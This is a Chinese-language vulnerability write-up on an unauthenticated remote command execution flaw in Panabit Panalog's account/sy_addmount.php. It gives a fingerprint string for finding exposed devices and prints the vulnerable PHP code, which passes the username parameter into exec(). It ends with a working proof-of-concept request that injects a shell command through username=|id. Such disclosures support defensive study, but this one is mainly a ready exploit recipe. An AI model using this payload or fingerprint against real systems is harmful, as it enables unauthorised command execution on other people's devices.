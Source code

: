 # Panabit Panalog sy_addmount.php 远程命令执行漏洞

# Panabit Panalog sy_addmount.php 远程命令执行漏洞

## 漏洞描述

Panabit Panalog sy_addmount.php过滤不足，导致远程命令执行漏洞

## 漏洞影响

```
Panabit Panalog
```

## 网络测绘

```
body="Maintain/cloud_index.php"
```

## 漏洞复现

登录页面

![image-20230314084818630](images/image-20230314084818630.png)

存在漏洞的代码为 account/sy_addmount.php

```
<?php

include(dirname(__FILE__)."/../common.php");

$username = isset($_REQUEST["username"]) ? $_REQUEST["username"] : "";
if (empty($username)) {
	echo '{"success":"no", "out":"NO_USER"}';
	exit;
}

$username = addslashes($username);

$rows = array();

$cmd = PANALOGEYE." behavior add account=$username";
exec($cmd, $out, $ret);
echo $out[0];
exit;
```

其中没有对身份进行鉴权，且 username 可控，构造POC

```
POST /account/sy_addmount.php

username=|id
```

![image-20230314084851344](images/image-20230314084851344.png)


